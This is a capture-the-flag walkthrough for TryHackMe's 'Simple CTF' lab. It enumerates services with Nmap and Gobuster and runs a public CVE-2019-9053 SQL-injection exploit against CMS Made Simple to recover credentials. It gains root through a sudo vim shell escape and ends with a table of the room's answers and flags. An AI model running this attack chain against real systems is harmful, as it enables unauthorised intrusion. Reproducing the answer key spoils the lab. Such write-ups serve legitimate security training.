# TryHackMe — Simple CTF Walkthrough

## Enumeration

Started with Nmap:
```bash
nmap -sV -p 1-3000 TARGET_IP
```



Found 3 open ports:
- Port 21: FTP (vsftpd 3.0.3)
- Port 80: HTTP (Apache 2.4.18)
- Port 2222: SSH (OpenSSH 7.2p2)

Note: SSH is on non-standard port 2222.

Visited port 80, found Apache default page:



Ran Gobuster for directory enumeration:
```bash
gobuster dir -u http://TARGET_IP -w directory-list-2.3-small.txt
```


Found `/simple` directory. Navigated to it:



Footer reveals CMS Made Simple version 2.2.8:



## CVE Research

Searched cve.mitre.org for CMS Made Simple 2.2.8 vulnerabilities:


Found CVE-2019-9053: blind time-based SQL injection in the News module.



Found exploit on Exploit-DB:


## Exploitation

Ran the CVE-2019-9053 exploit with password cracking:
```bash
python3 exploit.py -u http://TARGET_IP/simple -c -w /usr/share/wordlists/rockyou.txt
```



Exploit extracted credentials:



```
Username: mitch
Password: secret
```

## Initial Access

SSH on port 2222 with discovered credentials:
```bash
ssh mitch@TARGET_IP -p 2222
```



Got user flag:


Checked other users in /home:


Found another user: `sunbath`

## Privilege Escalation

Checked sudo permissions:
```bash
sudo -l
```



User mitch can run `/usr/bin/vim` as root with NOPASSWD.

Used vim to spawn root shell (GTFObins):
```bash
sudo vim -c ':!/bin/bash'
```



Got root:



Got root flag:



## Answers

| Question | Answer |
|----------|--------|
| Services under port 1000 | 2 |
| Higher port service | ssh |
| CVE used | CVE-2019-9053 |
| Vulnerability type | SQLi |
| Password | secret |
| Login location | ssh |
| User flag | G00d j0b, keep up! |
| Other user | sunbath |
| Privesc binary | vim |
| Root flag | W3ll d0n3. You made it! |
